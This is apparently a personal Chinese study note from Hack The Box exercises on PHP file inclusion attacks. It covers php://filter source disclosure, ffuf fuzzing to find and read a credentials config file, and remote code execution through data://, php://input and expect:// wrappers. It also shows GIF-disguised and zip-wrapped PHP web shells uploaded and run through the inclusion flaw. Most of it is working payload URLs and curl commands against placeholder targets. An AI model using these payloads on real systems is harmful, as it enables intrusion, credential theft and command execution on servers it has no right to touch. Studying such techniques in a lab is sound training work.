 # LFI(Local File Inclusion)

## 利用LFI漏洞读取php执行文件
正常执行服务器的en.php文件:
> http://<SERVER_IP>:<PORT>/index.php?language=en

一般建议还是用linux下的curl -s "http://<SERVER_IP>:<PORT>/index.php?language=en"来获取比较好。

---
不加文件后缀php是因为，服务器会自动追加，
不然就是
> http://<SERVER_IP>:<PORT>/index.php?language=en.php 
---

但若想直接查看该en.php文件的源码,
该文件首先要存在LFI(Local File Inclusion)漏洞，
使用浏览器执行:
> http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=en

则会得到该php文件源码的base64编码的字符串形式。
但要注意，base64编码字符串必须符合base64的padding规则，即字符串必须符合3的倍数，不够的情况下用1道2个“=”补足。
对该base64编码的字符串进行解码即可查看到源码。

## 利用ffuf模块(需安装)扫描
任务之一就是利用
> http://<SERVER_IP>:<PORT>/index.php?language=en

来找到config.php的源文件代码,以此读出登录名、密码等。
但因不知道config文件的具体名称和位置,
因此需要使用ffuf来探测上述接口,具体在本地或服务器上执行:
> ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php

可以看到config的文件名是configure.
因此,获取configure.php的源代码就和上述‘利用LFI漏洞读取php执行文件’一样了:
> http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=configure

fuff工具用途广泛，可用于多种用途：
* 目录发现，可选择在 URL 中的任何位置进行模糊测试。
* 子域名发现
* 使用各种 HTTP 方法进行模糊测试

(还未安装该模块，以后可以研究一下)

---
## base64加密及解密
使用base64进行编码：
``` Linux
[root@somebody]# echo "a" | base64
YQo=
```
使用base64进行解码：
``` Linux
[root@giantslayer1980 ~]# echo "YQo=" | base64 -d
a
```
依次,编码直接用 base64 ,可以多次编码,解码使用 base64 -d 即可。
---

---
## REC(Remote Code Execution)
有三种 Php Wrapper 可供使用:
Data Wrapper / Input Wrapper / Expect Wrapper

### Data Wrapper
前提是要查找目标的php.ini中是否开放:
allow_url_include = on
(这是因为include()/include_once()可以远程执行Remote URL,而require()/require_once()不可以)

对要执行的php代码进行base64编码,然后传递给data wrapper:
下面是两个例子：
1. 比如要执行的php代码是<?php system($_GET["cmd"]); ?>，
  用base64编码为:
  PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==,
  注意上面的+=之类的url特殊字符需要转义。
  接下来就可以访问网站:
  http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id

2. 比如要执行的php代码是<?php system('ls /'); ?>
    为了查看根目录中的文件.
    用base64编码为:
    PD9waHAgc3lzdGVtKCdscyAvJyk7ID8+Cg==
    接下来访问网站:
    http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCdscyAvJyk7ID8%2BCgMM
    注意:这时不需要&cmd=id之类的传参了。

### Input Wrapper
Input Wrapper 也需要 allow_url_include = on 这一前提条件。
1. 完成Data Wrapper的第一个例子的执行:
    Vito1026@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
    (-s是Silent模式;- X是request COMMAND)

2. 完成Data Wrapper的第二个例子的执行:
   curl -s -X POST --data '<?php system("ls /"); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input"

### Expect Wrapper
前提条件：
Expect Wrapper 需要查找目标的php.ini的 extension=expect 是否开启。
Expect Wrapper更为直接，直接执行代码。
1. 完成Data Wrapper的第一个例子的执行:
   Vito1026@htb[/htb]$ curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
   没有成功返回需要的数据，不知道为什么。

2. 完成Data Wrapper的第二个例子的执行:
   没想到要具体怎么使用。

---

# RFI(Remote File Inclusion)


# File Upload Attacks 

## 通过上传带有恶意php代码的gif图片,并远程执行
编写带有gif后缀及content(即GIF8开头)的文件:
> vito1026@htb[/htb]$ echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
或者
> echo "GIF8<?php system('ls /') ?>" > shell2.gif
> echo "GIF8<?php system('pwd') ?>" > shell3.gif

注意：
GIF的文件是这样的格式,但其他图片的格式就不是这样的，应该会更复杂，需要注意。

上传后,找出该gif的目录及文件名。
最后远程执行该gif文件:
> http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id

## 也是编写gif图片,但是是通过Zip Upload方式：

> echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php

这里会生成shell.php 和 shell.jpg 文件,后续仅上传shell.jpg

那么通过LFI漏洞,先解压该shell.jpg文件,并执行解压出来的shell.php文件:
> http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id

